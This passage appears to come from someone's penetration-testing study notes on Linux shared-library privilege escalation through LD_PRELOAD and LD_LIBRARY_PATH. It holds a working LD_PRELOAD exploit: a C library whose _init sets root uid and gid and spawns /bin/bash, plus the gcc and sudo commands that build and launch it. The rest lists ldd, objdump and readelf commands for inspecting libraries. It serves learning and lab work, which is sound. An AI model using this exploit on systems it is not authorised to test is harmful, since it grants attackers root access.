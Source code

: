 - `/lib` or `/usr/lib` default directories
- specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.
 
 See [[Linux-Shared-Libraries]] for more information.

#### `LD_PRELOAD`

`LD_PRELOAD` can load a library before executing a binary. Consider reading [LD_PRELOAD blog cited byt HTB Academy](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) 
```bash
sudo -l
# Look for:
env_keep+=LD_PRELOAD
# Create a bad so library
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

root.c -> root.so
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Escalate
```bash
sudo LD_PRELOAD=/dev/shm/root.so /usr/sbin/$vulnableLD_PRELOAD_binary $cmd
```

#### `LD_LIBRARY_PATH`

[LD_LIBARARY_PATH article](https://www.hpc.dtu.dk/?page_id=1180) : *`LD_LIBRARY_PATH` tells the dynamic link loader (ld. so – this little program that starts all your applications) where to search for the dynamic shared libraries an application was linked against.*

Analysing `$file.so` 
```bash
# view shared objects with `ldd`
ldd $binary
# objdump
objdump -p $binary | grep "$NEEDED"
# readelf
readelf --dynamic $file.so | grep "$NEEDED"

# find the pid and checking /proc maps file
pgrep $target
cat /proc/$PID/maps 
awk '$NF!~/\.so/{next} {$0=$NF} !a[$0]++' /proc/$PID/maps 
```
